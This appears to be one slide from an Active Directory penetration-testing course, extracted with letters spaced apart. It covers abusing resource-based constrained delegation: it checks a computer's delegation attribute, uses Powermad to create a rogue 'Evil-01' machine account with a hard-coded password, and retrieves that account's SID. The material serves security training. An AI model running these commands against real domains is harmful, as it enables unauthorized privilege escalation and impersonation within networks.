

# ABUSING RBCD
C h e c k	f o r	t h e	w e b - 0 1	c o m p u t e r	o b j e c t
m s D S - A l l o w e d To A c t O n B e h a l f O f O t h e r I d e n t i t y	a t t r i b u t e :
G e t - N e t C o m p u t e r	w e b - 0 1	|	S e l e c t - O b j e c t	- P r o p e r t y	n a m e ,	m s d s -
a l l o w e d t o a c t o n b e h a l f o f o t h e r i d e n t i t y
U s i n g	P o w e r M a d ,	P o w e r S h e l l	M a c h i n e A c c o u n t Q u o t a	e x p l o i t a t i o n	t o o l	t o
c r e a t e	n e w	E v i l	c o m p u t e r	o b j e c t	&	o b t a i n	i t s	s i d
I m p o r t - M o d u l e	. \ P o w e r m a d - m a s t e r 1 \ P o w e r m a d . p s 1

N e w - M a c h i n e A c c o u n t	- M a c h i n e A c c o u n t		E v i l - 01		- P a s s w o r d	$ ( C o n v e r t To - S e c u r e S t r i n g	‘ P a s s w 0 r d ! '	- A s P l a i n Te x t	- F o r c e )	– Ve r b o s e

G e t - D o m a i n C o m p u t e r	E v i l - 0 1	|	s e l e c t	o b j e c t s i d
238